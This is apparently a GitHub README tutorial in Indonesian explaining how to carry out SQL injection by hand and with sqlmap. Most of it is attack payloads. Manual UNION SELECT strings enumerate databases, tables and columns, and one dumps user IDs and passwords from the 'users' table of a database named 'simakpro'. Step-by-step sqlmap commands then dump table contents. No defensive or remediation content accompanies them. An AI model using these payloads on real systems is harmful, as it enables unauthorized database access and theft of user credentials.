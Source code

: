 ## Langkah-langkah melakukan SQL Injection secara manual
* Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter `' atau "` pada value inputan
* Apabila terdapat vuln, maka masukan script `' ORDER BY n #`, Cth: `' ORDER BY 1 #`, `' ORDER BY 2 #`, `' ORDER BY 3 #`, dst sampai menemukan error, Script ini berguna untuk mengetahui jumlah tables dalam database.
* Apabila memasukan script di URL maka gunakan `' --+`, apabila di inputan maka gunakan `' #` (`--+` penutup script di URL, `#` penutup script di inputan).
* Selanjutnya jika sudah diketahui banyaknya tables, maka jalankan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10 #
```
* Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10 #
```

* Selanjutnya, untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #
```

* Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #
```

* Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
```

* Tambahan, Apabila column input tidak bisa menampilkan data secara perulangan maka bisa menggunakan fungsi: `GROUP_CONCAT(variable_name)`, Cth: ` UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata #`


## Langkah-langkah melakukan SQL Injection secara otomatis menggunakan SQLMAP
* Mencari tahu apakah aplikasi website memiliki vuln sql injection dengan memasukan script ' secara manual ke inputan.
* Selanjutnya, Masukan perintah berikut untuk mengetahui vuln sql injectionnya
```bash
sqlmap -u "linkinputvulnSqlInjection"
```
* Selanjutnya, Masukan perintah berikut untuk mengetahui daftar isi databasenya
```bash
sqlmap -u "linkinputvulnSqlInjection" --dbs
```
* Selanjutnya, Masukan perintah berikut untuk melihat daftar tables didalam database yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name --tables
```
* Selanjutnya, Masukan perintah berikut untuk melihat struktur tables yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name --columns
```
* Terakhir, Masukan perintah berikut untuk melihat record data didalam tables dari nama columns yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name name_columns,name_columns --dump
```
